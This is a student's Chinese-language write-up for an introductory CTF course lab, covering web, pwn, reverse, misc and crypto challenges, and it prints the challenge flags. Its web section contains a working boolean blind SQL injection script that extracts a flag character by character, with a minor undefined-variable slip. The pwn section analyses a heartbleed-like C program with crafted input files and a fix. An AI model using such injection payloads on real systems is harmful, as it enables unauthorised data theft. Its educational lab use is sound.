






---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  

# Lab0 Report

## Prerequisite

### Challenge 1

#### Shell 命令探究

> echo 命令可用于输出字符串


> cd 命令可用于切换路径
>
> ls 命令可用于列出当前路径下的文件和目录，添加 -l 可列出所有文件的详细信息


> touch 命令可用于在当前路径下新建文件


> echo 语句与重定向相结合可以将字符串写入文件，重定向 > 表示覆盖文件中的所有原内容；>> 表示不覆盖文件中的原内容，在文件后追加输入
>
> cat 语句可用于输出文件内容，添加 -n 可输出行号


#### 通过 ssh 远程连接到 Linux 环境

连接成功界面截图如下：



### Challenge 2

#### 阅读程序解释其功能

```python
#!/usr/bin/python3

data = input("give me your string: ")
print("length of string:", len(data))

data_old = data
data_new = ""
for d in data:
    if d in 'abcdefghijklmnopqrstuvwxyz':
        data_new += chr(ord(d) - 32)
    elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
        data_new += chr(ord(d) + 32)
    else:
        data_new += d

print("now your string:", data_new)
```

其功能：输入一个字符串，输出其长度，并且将其中的大写字母转换为小写字母，小写字母转换为大写字母，其他字符不变，形成新的字符串输出。

#### Calculator

##### 法 1：借用提供的部分代码

```python
import socket

HOST = "10.214.160.13"  # IP address
PORT = 11002            # Port number

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)   # create socket

s.connect((HOST, PORT))    # connect to this challenge

def recv_one_line(socket):
	buf = b""
	while True:
		data = socket.recv(1)
		if data == b'\n':
			return buf
		buf += data

def recv_one_question(socket):
	buf = b""
	while True:
		data = socket.recv(1)
		if data == b'=':
			return buf
		buf += data


recv_one_line(s)    # ================================================
recv_one_line(s)    # Mom: finish these 10 super simple calculations,
recv_one_line(s)    #       and you will get a flag
recv_one_line(s)    # Melody: that's easy...
recv_one_line(s)    # Mom: yep, in 10 seconds
recv_one_line(s)    # ================================================
recv_one_line(s)    #

question_1 = recv_one_question(s)

# Plz write code to solve question and send the answer to server
# for example, if you calculate the answer as 111, you can send
# your answer like below
# s.send("111\n")
for i in range(9):
	ans = eval(question_1)
	s.send((str(ans)+"\n").encode())

	recv_one_line(s)
	recv_one_line(s)

	question_1 = recv_one_question(s)

ans = eval(question_1)
s.send((str(ans)+"\n").encode())

recv_one_line(s)
recv_one_line(s)
recv_one_line(s)

flag = recv_one_line(s)
print(flag)
s.close()
```

可以得到正确 flag 为：AAA{melody_loves_doing_calculus_qq_qun_386796080}

成功截图如下：




##### 法 2：使用 python pwntools 库

```python
from pwn import *

p = remote('10.214.160.13', 11002)
context.log_level = "DEBUG"

for i in range(10):
    if i == 0:
        p.recvlines(7)
    else:
        p.recvlines(3)
    a = p.recvuntil(b"=").decode("utf-8")[:-2]
    p.sendline(str(eval(a)).encode('utf-8'))

p.interactive()
```

同样可以得到正确 flag：


### Challenge 3

#### Q1&Q2


Q1:xor 操作表示将两个寄存器中的值进行异或操作，并保存在第一个寄存器当中，在这里便是将 dh 寄存器置 0。

Q2:not 操作表示将寄存器中的值进行按位取反操作，并保存在原寄存器当中，在这里便是将原 dx 寄存器中的值 0xFFFF 取反为 0 存回 dx 寄存器中。

#### Q3


mov 操作表示将后一个寄存器当中的值赋值给第一个寄存器，在这里 di 寄存器的值来自 bp 寄存器，bp 寄存器的值来自 dx 寄存器，dx 寄存器的值在 Q2 中被置为 0，因此 di 寄存器最终也置为 0。

#### Q4


在这里 al 为 ax 的低八位，ah 为 ax 高八位，这里将 al 赋值为 't'，将 ah 赋值为 0x0e，结合起来 ax 即为 0x0e74。

#### Q5


在这里将 al 赋值为偏移地址为 si 寄存器的值的字符/字符串，在循环至第三次时，将字符串中的 O 赋值给 al，将 ah 赋值为 0x0e，那么最后 ax 为 0x0e4f。

#### Q6


这里将 dh 赋值为 3，dl 赋值为 15，那么 dx 为 0x030f 。

#### Finally

所以最终的 flag 为 ACTF{We1com3_7o_R3_00_00_0000_0e74_0e4f_030f}

## Web

### Challenge 1

进入网页 http://pumpk1n.com/lab0.php，打开开发者工具查看 HTML 代码，我们可以看到：



这里可以看到 onmousemove="hide()"，结合实操可以看出，当鼠标到 click me 上时，按钮就消失了。

然后我们再注意到如果成功完成点击按钮，触发与 flag 有关的 getflag()，继续寻找其代码可看到；


我们看到这里隐藏了一个网页后缀，将其复制到网址中，可以得到：


我们尝试刷新该网页，会发现网页变为：


结合网页的 token=...，我们再回到原网页刷新，发现原 getflag 重新更新为：


可以发现 token 有所变化，重复上述操作可以得到：


至此，我们可以猜测，该任务即需要我们反复得到刷新的 token 访问网页共 1337 次，即可得到 flag。

那么，我们可以利用 python 爬虫来反复爬取页面的内容，累计访问次数得到 flag。代码如下：

```python
import requests
import re

word = ""
URL_1 = f"http://pumpk1n.com/lab0.php"
session = requests.Session()
res = session.get(URL_1)
decoded = res.text.encode('utf-8').decode("unicode_escape")
result = re.findall('fetch\(\'(.*?)\'\)\n', decoded)

while result[0] != "":
    res = session.get(URL_1)
    decoded = res.text.encode('utf-8').decode("unicode_escape")
    result = re.findall('fetch\(\'(.*?)\'\)\n', decoded)

    word = result[0]
    URL = f"http://pumpk1n.com{word}"
    response = session.get(URL)
    print(response.text)
```

在过程中，我们可以看见其中程序一遍遍访问网页：


当访问完 1337 次之后，可以看到：


所以最终的 flag 为：flag{56297ad00e70449a16700a77bf24b071}

### Challenge 2

由于不太了解布尔盲注等基础做法（简单来说就是不太理解其原理），因此解题报告与代码参考了许多网络资源。

由试验：




可以猜想有过滤，在 Burpsuite 中爆破：


长度为 472 的是没有被过滤掉的，Python 程序如下：

```python
import requests

URL = "http://abcb7ed0-472f-4763-8251-cc01fb48192b.node5.buuoj.cn:81/index.php"

ans = ""
i = 0

while True:
    i = i + 1
    left = 32
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id": payload}
        res = requests.post(url=url, data=data)
        if "Hello" in res.text:
            left = mid + 1
        else:
            right = mid
    if left != 32:
        ans += chr(left)
        print(ans)
    else:
        break
```

通过一个一个获得 flag 的值，最后输出 flag 为：


解题成功截图：


## Pwn

Program.c 源程序如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    uint8_t buffer[0x1000] = {0};
    fread(buffer, sizeof(struct hbpkt), 1, stdin);

    struct hbpkt *tmp = (struct hbpkt *)buffer;

    if (tmp->size > 0x1000)
        return NULL;

    fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);

    uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);

    struct hbpkt *res = malloc(real_size);

    if (!res)
        return NULL;

    memcpy(res, buffer, real_size);

    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err;
    int written;

    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written == 0 || written != pkt->size)
    {
        err = -1;
    }

    return err;
}

int main()
{
    int err;
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        err = reply_heart_beat(p);

        if (err)
        {
            free(p);
            continue;
        }
    }
}
```

### Bugs

在第 26 行中，由于 hbpkt 中定义的全部是无符号数，在做减法时如果 tmp->size 小于 sizeof(struct hbpkt)，那么会得到一个非常大的正数。

在第 28 行中，strlen 这个函数也是一个漏洞，假设输入的数据不是以空字符结尾，这会将导致内存溢出越界。同时也会导致 real_size 小于实际的 size，最后输出时有未初始化的字符。

在第 49 行中，如果 real_size 小于实际 size，导致未初始化结果泄漏问题。

在第 44 行中，err 未初始化，如果 pkt->size 为 0，written 变量将保持未初始化状态，err 变量也可能未被正确设置。

在第 66 行与 74 行中，程序只是设定了在 err 时 free p 指针，但是没有考虑没有 err 时的情况，那么会造成内存溢出。

### 交互

我们编写第一个生成数据的 c 程序体现 Bug 1：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
#include <assert.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

int main(int argc, char *argv[]){
    struct hbpkt pkt;
    uint8_t buffer[0x2000];

    pkt.size = 0;//设置 size 为一个很小的数
    pkt.timestamp = 0;
    pkt.index = 0;
    pkt.cred = 1;

    FILE* fptr = fopen("pkt1","w");
    assert(fptr != NULL);

    fwrite(&pkt,sizeof(pkt),1,fptr);
    
    memset(buffer,'A',0x2000);
    fwrite(buffer,0x2000,1,fptr);

    fclose(fptr);
    return 0;
}
```

运行输入可得该程序一直在等待输入。


第二个 c 程序体现程序的内存溢出情况：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
#include <assert.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

int main(int argc, char *argv[]){
    struct hbpkt pkt;
    uint8_t buffer[0x20];

    pkt.size = 0x1000;
    pkt.timestamp = 0;
    pkt.index = 0;
    pkt.cred = 1;

    FILE* fptr = fopen("pkt2","w");
    assert(fptr != NULL);

    fwrite(&pkt,sizeof(pkt),1,fptr);
    
    memset(buffer,'A',20);
    fwrite(buffer,0x20,1,fptr);

    fclose(fptr);
    return 0;
}
```

运行输入可知程序有奇怪的字符溢出：


### 修复程序

最后修复完成的程序如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    uint8_t buffer[0x1000] = {0};
    fread(buffer, sizeof(struct hbpkt), 1, stdin);

    struct hbpkt *tmp = (struct hbpkt *)buffer;

    if (tmp->size > 0x1000 || tmp->size <= sizeof(struct hbpkt))//添加一个判断条件
        return NULL;

    fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);

    uint32_t real_size = sizeof(struct hbpkt) + tmp->size - sizeof(struct hbpkt);

    struct hbpkt *res = malloc(real_size);

    if (!res)
        return NULL;

    memcpy(res, buffer, real_size);

    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err = 0;  //初始化 err
    int written = 0;  //初始化 written

    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written == 0 || written != pkt->size)
    {
        err = -1;
    }

    return err;
}

int main()
{
    int err;
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        err = reply_heart_beat(p);

        if (err)
        {
            free(p);
            continue;
        }

        free(p);  //释放空间
    }
}
```

## Reverse

将 elf 程序直接丢到 IDA 中反汇编，可以得到主程序：


判断函数：


可以看出获得 access granted 的条件即为输入的每一位字母的 ASCII 码乘 16 与 table 对应的数字相同，那么将 table 中的每一个数字除以 16 得到：65 65 65 123 72 105 82 101 118 101 114 115 101 125，翻译成字符串即为：AAA{HiReverse}


## Misc

### Challenge 1

#### 法 1

首先从网上查找关于 Base 系列加密的资料：

> Base16 特征：大写字母（A-Z）和数字（0-9），不用“=”。
>
> Base32 特征：大写字母（A-Z）和数字（2-7），不满 5 的倍数，用“=”补齐。
>
> Base64 特征：大小写字母（A-Z，a-z）和数字（0-9）以及特殊符“+”，“/”，不满 3 的倍数，用“=”补齐。
>
> Base58 特征：相比 Base64，Base58 不使用数字“0”，大写字母“O”，大写字母“I”，小写字母“l”和“+”，“/”符号，最主要的是后面不会出现“=”。
>
> Base85 特征：奇怪的字符比较多，但很难出现“=”。
>
> Base91 特征：由 91 个字符（0-9，a-z，A-Z，!#$%&()*+,./:;<=>?@[]^_`{|}~"）组成，不支持中文进行加密。
>
> Base100 特征：一堆 Emoji 表情。

观察给出的字符串，其特殊字符较多：

8Q%uH7oV9C7o!2f7oD*B9M/>U2Gu:s:JP%n6W>j@8PrYk9/]^B:0'e_6SgJh7n-*Q5rM>=:Gkm:7oN)U:I/,P;`$6b:Gk[5=]%gm7mT%14Ztqk

根据上述资料，可以推测其为 Base85 加密。

将字符串放入 CyberChef Base85 加密当中：


此时得到了末尾连续 4 个等号，推测其为 Base32 加密，再次解密：


逐步排查推测其可能为 Base64，逐个尝试可得 flag：


所以最后的 flag 为：AAA{wELc0m3_t0_Ctf_5umMEr_c0UrsE_2024}

#### 法 2：秒杀

当然在 CyberChef 中有个功能：Magic，直接导入字符串可得：



### Challenge 2

LSB 隐写通过改变图片的二进制文件中每个数字的最后一位，达到将自己信息塞入图片中并且进行传递的目的。

将图片导入 CyberChef 当中，在最后我们可以发现 flag 的后半段：



再用 CyberChef 中的View Bit Plane 功能，设定 Red 为 0 就可以得到前半段 flag：


这样我们就可以得到完整 flag：AAA{gr3@t_J08!_1et'5_P1@y_m1SC_TOG3Th3R}

## Crypto

### Challenge 1


将这张图片进行同样的符号为一个字符进行字符转换，其中右上角为圈的地方视为后加空格，可以得到如下密文：

ABCDEFA GAFHC IDJJ HKKDLG FGKG MJGHNG JOKG FDP AB AFG HQHCRBCGR IHKGFBONG CGHK AFG MBJDSG NAHADBC IFGKG AFG MKBTGNNDBCHJ HNNHNNDC KGGNG FDKGR IDJJ GJDPDCHAG FDP ABPBKKBI NFG IDJJ EB AB AFG IHKGFBONG HCR QGSBPG AFG TDKNA MGKNBC AB RDNSBLGK FDN SBKMNG IDAF H NAKBCE HJDQD AFGNG MBJDSG BTTDSGKN HQNBJOAGJV SHC CBA HKKGNA FGK

导入到 quipquip 中可得最终结果：


### Challenge 2

由 RSA 原理，公钥加密私钥解密：

$d=e^{-1}\space mod\space\phi(n),m=c^d\space mod\space n$

结合 python pycryptodome 库可编写 Python 程序如下：

```python
from Crypto.Util.number import long_to_bytes
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
e = 0x10001
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
c = 0x39f68bd43d1433e4fcbbe8fc0063661c97639324d63e67dedb6f4ed4501268571f128858b2f97ee7ce0407f24320a922787adf4d0233514934bbd7e81e4b4d07b423949c85ae3cc172ea5bcded917b5f67f18c2c6cd1b2dd98d7db941697ececdfc90507893579081f7e3d5ddeb9145a715abc20c4a938d32131013966bea539
m = pow(c, d, n)
print(long_to_bytes(m))
```

最后运行得到 flag：AAA{Ace_Attorney_is_very_fun_Phoenix_Wright&Miles_Edgeworth}

